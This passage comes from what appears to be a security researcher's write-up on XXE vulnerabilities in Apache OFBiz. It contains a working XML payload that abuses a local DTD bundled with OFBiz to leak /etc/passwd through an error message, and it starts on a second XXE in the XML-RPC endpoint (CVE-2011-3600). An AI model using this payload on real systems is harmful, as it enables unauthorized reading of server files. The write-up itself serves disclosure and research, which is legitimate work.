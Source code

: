 However, I recently came across a <a href="https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/" target="_blank">blog post</a> that inspired me to revisit this exploitation method. The <a href="https://twitter.com/_mohemiv" target="_blank">author</a> presents a technique that eliminates the need for an outbound HTTP request to retrieve the necessary DTD file. Instead, external DTD syntax can be included by redefining a parameter entity inside a local DTD file on the target server. I highly recommend reading the blog post to better understand how this technique works.

### Method #2 -- External DTD in a Local DTD File
Unfortunately, the file used in the blog post above (`/usr/share/yelp/dtd/docbookx.dtd`) doesn't ship with every Linux distribution. In order to maximize the effectiveness of this exploit, I found a DTD file that comes packaged with OFBiz that can reliably achieve the same result: `applications/content/dtd/docbookx.dtd`.

The following payload redefines the necessary parameter entities in the OFBiz DTD file to reference *another* DTD file in the same directory. Again, this payload has to be URL-encoded before being submitted in the `serviceContext` parameter:

```xml
<!DOCTYPE x [
<!ENTITY % local-dtd SYSTEM "file:///path/to/ofbiz/applications/content/dtd/docbookx.dtd">
<!ENTITY % target-file SYSTEM "file:///etc/passwd">
<!ENTITY % dbnotn SYSTEM "docbook.dtd">
<!ENTITY % dbcent SYSTEM "docbook.dtd">
<!ENTITY % dbhier SYSTEM "docbook.dtd">
<!ENTITY % dbgenent SYSTEM "docbook.dtd">
<!ENTITY % dbpool '<!ENTITY &#x25; trigger-error "<!ENTITY disclose SYSTEM &#x27;file:///nonexistent/&#x25;target-file;&#x27;>">'>
%local-dtd;
%trigger-error;
]>
<x>&disclose;</x>
```

The result is the exact same as the first payload but we completely avoided triggering any outbound requests.

The silver lining in being unable to exploit this during the engagement was that it forced me to keep looking for other vulnerabilities in Apache OFBiz. It didn't take long before I discovered a second, entirely seperate XXE, this time in the application's XML-RPC server.


# XXE #2 -- XML-RPC (CVE-2011-3600)
## Discovery
A GET request to `/webtools/control/xmlrpc` returns the following HTTP response:

```xml
HTTP/1.1 200 OK
...

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse xmlns:ex="http://ws.apache.org/xmlrpc/namespaces/extensions">
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value>
            <i4>0</i4>
          </value>
        </member>
        <member>
          <name>faultString</name>
          <value>Failed to parse XML-RPC request: Premature end of file.</value>
        </member>
```